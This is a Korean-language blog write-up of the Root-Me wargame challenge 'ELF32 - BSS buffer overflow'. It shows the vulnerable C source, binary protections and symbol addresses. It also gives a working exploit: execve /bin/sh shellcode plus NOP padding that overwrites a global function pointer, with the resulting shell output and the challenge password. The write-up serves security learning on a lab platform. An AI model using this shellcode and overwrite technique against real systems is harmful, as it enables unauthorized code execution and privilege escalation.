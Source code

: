 ```yaml
---
layout: post
title: "[root-me][app-system] ELF32 - BSS buffer overflow"
date: 2016-09-16 22:30:00
category: wargame
tags:  [root-me, bof]
---
```


Who said overflows happen only on the stack ?

[Challenges/App - System : ELF32 - BSS buffer overflow [Root Me : Hacking and Information Security learning platform]](https://www.root-me.org/en/Challenges/App-System/ELF32-BSS-buffer-overflow)

<!--more--> 

## Code

- 전역변수 `username[512]`
- `argv[1]` 을 `username[]` 에 복사
- `void (*_atexit)(int)` function pointer 를 변조해야 하나 ?

```c
#include <stdio.h>
#include <stdlib.h>
 
char username[512] = {1};
void (*_atexit)(int) =  exit;
 
void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0; 
}
 
int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
 
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
 
  _atexit(0);
  return 0;
}

```

## Info

ASLR 없으며, `NX disabled` 라서 stack/data shellcode 실행 가능함.


```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./ch7

ASLR is OFF
```

`username[512]` 뒤에 `_atexit` 존재


```
0804a020  w      .data  00000000              data_start
0804a040 g     O .data  00000200              username
0804a240 g     O .data  00000004              _atexit
```

shellcode (23 bytes)

[Linux/x86 - execve /bin/sh shellcode - 23 bytes](http://shell-storm.org/shellcode/files/shellcode-827.php)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Payload


```
username[512]  = shaellcode + NOP
_atexit        = [username 주소]
```


## Exploit

```bash
$ ./ch7 $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*489 + "\x40\xa0\x04\x08"')
[+] Running program with username : 1Ph//shh/binS̀@

sh-4.2$ id
uid=1107(app-systeme-ch7) gid=1107(app-systeme-ch7) euid=1207(app-systeme-ch7-cracked) groups=1207(app-systeme-ch7-cracked),100(users),1107(app-systeme-ch7)

sh-4.2$ cat .passwd
aod8r2f!q:;oe
```

